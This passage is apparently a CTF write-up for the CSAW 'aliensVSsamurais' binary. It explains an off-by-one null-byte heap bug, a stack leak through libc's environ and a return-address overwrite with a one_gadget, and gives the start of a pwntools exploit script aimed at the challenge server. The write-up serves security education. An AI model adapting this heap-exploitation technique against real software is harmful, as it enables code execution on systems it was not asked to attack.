 ```c
v0->name[(signed int)read(0, v0->name, size)] = 0; // off by one
v1 = alien_index++;
```

so we can use null byte poisoning to do it, however, we cannot write `__malloc_hook` or `__free_hook`, but there is a pointer in the alien structure, and we can show and edit it. Thus, we can use it to leak the stack address using `environ` in libc, and then write the return address of `hatchery` to `one_gadget` with the zero precondition.

The other parts seems to be not useful, although there are many problems in this binary. However, these problems are unexploitable or hard to exploit.

exp

```python
from pwn import *

g_local=True
context.log_level='debug'

if g_local:
	e = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")
	sh = process('./aliensVSsamurais')#env={'LD_PRELOAD':'./libc.so.6'}
	ONE_GADGET_OFF = 0x4526a
	UNSORTED_OFF = 0x3c4b78
	gdb.attach(sh)
else:
	ONE_GADGET_OFF = 0x4526a
	UNSORTED_OFF = 0x3c4b78
	sh = remote("pwn.chal.csaw.io", 9004)
	e = ELF("./libc.so.6")
	#ONE_GADGET_OFF = 0x4557a

def create(length, content):
	sh.send("1\n")
	sh.recvuntil("How long is my name?\n")
	sh.send(str(length) + "\n")
	sh.recvuntil("What is my name?\n")
	sh.send(content)
	sh.recvuntil("Brood mother, what tasks do we have today.\n")

def delete(idx):
	sh.send("2\n")
	sh.recvuntil("Which alien is unsatisfactory, brood mother?\n")
	sh.send(str(idx) + "\n")
	sh.recvuntil("Brood mother, what tasks do we have today.\n")

def editidx(idx, content = None):
	sh.send("3\n")
	sh.recvuntil("Brood mother, which one of my babies would you like to rename?\n")
	sh.send(str(idx) + "\n")
	sh.recvuntil("Oh great what would you like to rename ")
	ret = sh.recvuntil(" to?\n")
	ret = ret[:len(ret)-len(" to?\n")]
	if content:
		sh.send(content)
	else:
		sh.send(ret)
	sh.recvuntil("Brood mother, what tasks do we have today.\n")
	return ret

sh.recvuntil("Daimyo, nani o shitaidesu ka?\n")
sh.send("1\n")
sh.recvuntil("What is my weapon's name?\n")
sh.send("1\n")
```